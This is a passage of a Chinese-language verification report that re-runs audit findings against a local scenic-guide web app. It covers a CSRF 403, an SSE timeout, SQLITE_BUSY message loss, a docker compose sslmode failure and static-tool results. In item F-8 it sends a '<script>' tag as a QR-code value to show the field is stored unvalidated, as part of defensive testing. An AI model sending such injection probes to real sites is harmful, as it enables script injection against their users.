  $B/api/v1/dh/chat/text
# 浏览器打开 http://127.0.0.1:8080/static/index.html
```

**实际输出：**

- curl：`f5 http=403`，`{"code":403,"message":"invalid csrf token"}`
- 浏览器：`/static/index.html` 能打开；页面 **没有可用的 `chatInput` 聊天框**。点击「智能导览」会进入 Vue SPA（`/digital-human`）。在 Vue 页注入 `sendMessage` 或走聊天时，UI 显示「网络错误」（403 被前端 catch 成网络失败）。

截图：

- 
- 
- 
- 

**与报告差异：** API 层 403 成立；报告写的“在旧页聊天框输入后页面显示服务器响应错误: 403”不成立，因为旧页没有可交互聊天框，会跳到 Vue，且 Vue 把 403 显示成网络错误。CJK 字体在 VM Chrome 中偏糊。

---

## F-6 SSE 心跳竞态 + 60s WriteTimeout

**结论：部分复现**

**命令：**

```bash
# 仓库自带测试（去掉本任务临时 TestF6HeartbeatRaceWindow 之后）
go test -race ./...
# WriteTimeout：BASE_URL 指到 STREAM_DELAY=8 的 mock :18081
curl -sS -N --max-time 90 -b f6.txt -H "X-CSRF-Token: $CS" \
  -H 'Content-Type: application/json' \
  -d '{"message":"请慢慢讲完灵山","session_id":"f6-sse","stream":true}' \
  $B/api/v1/ai/chat
```

**实际输出：**

- 仓库测试 `go test -race ./...`：**RACE2_EXIT:0**，无 DATA RACE
- 本任务曾在 VM 本地加过 `TestF6HeartbeatRaceWindow`，`go test -race` 报 DATA RACE，但那是**自造测试**，随后已从验证口径中剔除
- 慢 mock SSE：`HTTP/1.1 200`，`Content-Type: text/event-stream`，中间有 `: heartbeat`，约 60.010s 后 `curl: (18) transfer closed with outstanding read data remaining`

**与报告差异：** WriteTimeout=60s 切断长流 **已复现**。心跳 goroutine 与 handler 返回的数据竞争 **未能被仓库自带测试复现**。

---

## F-7 并发首条消息丢失

**结论：部分复现**

**命令：** 同一 Cookie、同一新 `session_id` 并发两条 `/ai/chat`，再查 `chat_messages`。

**实际输出：**

- `f7-count.txt`：`0`
- 日志：

```
WARN 会话持久化失败 session_id=race-1790519715 user_id=3
error="查询会话失败: database is locked (5) (SQLITE_BUSY)"
WARN 会话持久化失败 session_id=race-1790519715
error="创建会话失败: database is locked (5) (SQLITE_BUSY)"
```

**与报告差异：** 消息确实丢失，但原因是 **SQLITE_BUSY**，不是报告写的 `UNIQUE constraint failed`。并发首条丢消息成立，根因与报告不完全一致。

---

## F-8 非法 QR / 经纬度被接受

**结论：已复现**

**命令（纠正路径后）：**

```bash
# 报告路径 /api/v1/admin/spots → 404
# 实际创建：POST /api/v1/spots
curl -sS -b admin.txt -H "X-CSRF-Token: $CSRF" -H 'Content-Type: application/json' \
  -d '{"name":"测试景点A","description":"for f8","latitude":31.43,"longitude":120.09}' \
  $B/api/v1/spots
curl -sS -b admin.txt -H "X-CSRF-Token: $CSRF" -X PUT -H 'Content-Type: application/json' \
  -d '{"qr_code":"<script>x</script> 空格/斜杠","qr_enabled":true}' \
  $B/api/v1/admin/qr/spots/1
curl -sS -b admin.txt -H "X-CSRF-Token: $CSRF" -H 'Content-Type: application/json' \
  -d '{"name":"非法坐标点","latitude":999,"longitude":-999,"rating":100,"price":-5}' \
  $B/api/v1/spots
sqlite3 /workspace/data/scenic_guide.db \
  "select id,name,latitude,longitude,rating,price,qr_code from scenic_spots;"
```

**实际输出：**

- 创建 / QR / 非法坐标：均为 `code:0`
- DB：

```
1|测试景点A|31.43|120.09|0.0|0.0|<script>x</script> 空格/斜杠
2|非法坐标点|999.0|-999.0|100.0|-5.0|
```

**与报告差异：** `POST /api/v1/admin/spots` 是 **404**，真实创建路径是 `POST /api/v1/spots`。非法 QR 与越界经纬度/评分/负价格仍被接受。

---

## F-9 删除最后管理员 / 孤儿会话

**结论：已复现**

**命令：** 管理员先 `POST /api/v1/sessions/admin-orphan-1/messages` 落一条会话，再 `DELETE /api/v1/admin/users/<自己的id>`。

**实际输出：**

- 删除：`HTTP/1.1 200`，`{"code":0,"message":"删除成功"}`，同时 `Set-Cookie: auth_token=; Max-Age=0`
- `select count(*) from users where role='admin'` → `0`
- `select count(*) from chat_sessions where user_id=<原管理员id>` → `1`
- 其后管理接口需重新登录；原 token / 空 cookie 下 overview 为未认证

**与报告差异：** 删除自己时服务端顺带清空了 cookie，所以“随后 401”既来自没有管理员，也来自 cookie 被清。孤儿会话成立。

---

## F-10 改用户名冲突返回 500

**结论：已复现**

**命令：** 注册 `userA` / `userB`，userB 登录后 `PUT /api/v1/users/<userB_id>`，body `{"username":"userA"}`。

**实际输出：**

- `f10 http=500`，`{"code":500,"message":"更新失败"}`
- 日志：`更新用户失败 error="constraint failed: UNIQUE constraint failed: users.username (2067)"`

**与报告差异：** 无。

---

## E-7 docker compose + sslmode=require

**结论：部分复现**

**命令：**

```bash
export SCENIC_GUIDE_DATABASE_PASSWORD=... SCENIC_GUIDE_SECURITY_JWT_SECRET=...
docker compose up -d --build
sleep 30
docker compose ps
docker compose logs scenic-guide
docker compose exec -T postgres psql -U scenic -d scenic_guide -c 'SHOW ssl;'
curl -sv --max-time 3 http://127.0.0.1:8080/health
```

**实际输出（`/opt/cursor/artifacts/E-7-compose-status.log`）：**

- postgres：`healthy`，`SHOW ssl` → `off`
- scenic-guide：卡在 `初始化数据库` 约 2 分钟后 **exit**，`RestartCount=0`（compose 无 restart 策略），最终 `unhealthy` / `exited`
- 错误：

```
服务启动失败: 数据库连接失败: failed to connect to `user=scenic database=scenic_guide`:
172.18.0.2:5432 (postgres): dial error: timeout: dial tcp 172.18.0.2:5432: connect: connection timed out
```

- DSN 代码写死 `sslmode=require`（`internal/pkg/database.go`）
- HTTP：连接被 reset / 随后 `Connection refused`
- 额外：compose 未配置 Redis，应用打 `[::1]:6379` 失败后降级内存限流
- 本 VM 的 Docker 因 overlayfs `invalid argument` 改用了 `vfs` 存储驱动；从另一容器用 `sslmode=disable` 连 postgres **同样 TCP 超时**

**与报告差异：**

1. 不是循环重启，而是超时后单次退出。
2. 报错是 **TCP connect timeout**，不是报告写的 `SSL is not enabled on the server` / `server refused TLS connection`。
3. 在本 VM 上无法把失败**单独归因**于 `sslmode=require`，因为 disable 也同样连不上。硬编码 require + 官方镜像 ssl=off 仍是真实缺陷；本次运行还叠了 Docker 网络/驱动因素。

---

## 静态工具原始输出

| 工具 | 结果 | 原始文件 |
|---|---|---|
| `go vet ./...` | exit 0 | `/opt/cursor/artifacts/go-vet.txt` |
| `go test -race ./...`（含本任务自造 F-6 测试） | 出现 DATA RACE，失败 | `/opt/cursor/artifacts/go-test-race.txt` |
| `go test -race ./...`（去掉自造测试后，仓库口径） | **RACE2_EXIT:0** | `/opt/cursor/artifacts/go-test-race2.txt` |
| `govulncheck ./...` | 影响 31 条，exit 3 | `/opt/cursor/artifacts/govulncheck.txt` |
| `cd web-vue && npm audit --omit=dev` | 4 个（dompurify moderate；nanoid high；postcss high；qs moderate） | `/opt/cursor/artifacts/npm-audit.txt` |
| `go test -coverprofile=c.out ./...` | 部分包 `go: no such tool "covdata"`，`COVER_TEST_EXIT:1`；`go tool cover -func` **total 46.9%** | `/opt/cursor/artifacts/go-cover.txt`、`/opt/cursor/artifacts/go-cover-func.txt` |

govulncheck 摘要：Go 1.25 stdlib 多条（url / tls / http / xml / asn1 等）+ `golang.org/x/text@v0.28.0`；另有“导入但代码未调用”的漏洞。这与报告 S-11 的 OSV 列表互补，**不能**用本次结果否定 pgx 等间接依赖的 OSV 命中。

---

## 新发现（报告未单列）

### N-1 SQLite 并发持久化 SQLITE_BUSY

**结论：** 已复现（S-7 / F-7 过程中）

并发 `/ai/chat` 或刚写入会话就立刻再写时，日志反复：

```
WARN 会话持久化失败 ... error="database is locked (5) (SQLITE_BUSY)"
```

HTTP 仍可能 200，但 `chat_sessions` / `chat_messages` 为空。报告 F-7 只写了 UNIQUE 冲突，漏掉这条在 SQLite 默认部署下更常见的失败。

### N-2 compose 默认 Redis 指向容器 localhost

compose 未提供 Redis 服务，应用默认连 `[::1]:6379`，约 1.7s 后：

```
Redis 连接失败，将使用内存限流器  error="dial tcp [::1]:6379: connect: connection refused"
```

生产 compose 路径的限流与 S-8 描述的 Redis 行为不一致（静默降级）。

### N-3 Vue 把 403 CSRF 显示成「网络错误」

浏览器走数字人页聊天时，API 403 被 catch 成网络失败文案，而不是“缺少 CSRF”。截图见 F-5。

### N-4 旧静态首页没有可交互聊天框

`/static/index.html` 的「智能导览」跳到 Vue SPA，`chatInput` 不存在。报告 F-5 的“在聊天框输入”步骤无法按字面执行。

### N-5 管理后台没有 eval-stats 页面

`GET /api/v1/admin/knowledge/eval-stats` 有数据，但 Vue 管理端知识库页不展示该接口；F-2 只能靠 API / JSON 截图证明。

### N-6 创建景点的真实路径不是 `/api/v1/admin/spots`

报告 F-8 写的管理创建路径返回 404；实际是 `POST /api/v1/spots`。这是静态报告步骤错误，不是新的产品漏洞，但复现时必须改路径。

---

## 截图清单

| 文件 | 对应条目 |
|---|---|
| [`F-2-eval-stats-json.png`](screenshots/F-2-eval-stats-json.png) | F-2 API `available:false` |
| [`F-2-admin-knowledge.png`](screenshots/F-2-admin-knowledge.png) | F-2 管理知识库页 |
| [`F-3-digital-human-404.png`](screenshots/F-3-digital-human-404.png) | F-3 构建前 404 |
| [`F-3-digital-human-after-build.png`](screenshots/F-3-digital-human-after-build.png) | F-3 构建后页面 |
| [`F-5-static-index-home.png`](screenshots/F-5-static-index-home.png) | F-5 旧首页 |
| [`F-5-static-index-before-chat.png`](screenshots/F-5-static-index-before-chat.png) | F-5 点击前 |
| [`F-5-static-index-click-chat.png`](screenshots/F-5-static-index-click-chat.png) | F-5 点击「智能导览」 |
| [`F-5-static-index-chat-403.png`](screenshots/F-5-static-index-chat-403.png) | F-5 Vue 页网络错误 |

补充运行日志：

- `/opt/cursor/artifacts/E-7-compose-status.log`
- `/opt/cursor/artifacts/F-1-unit-test.txt`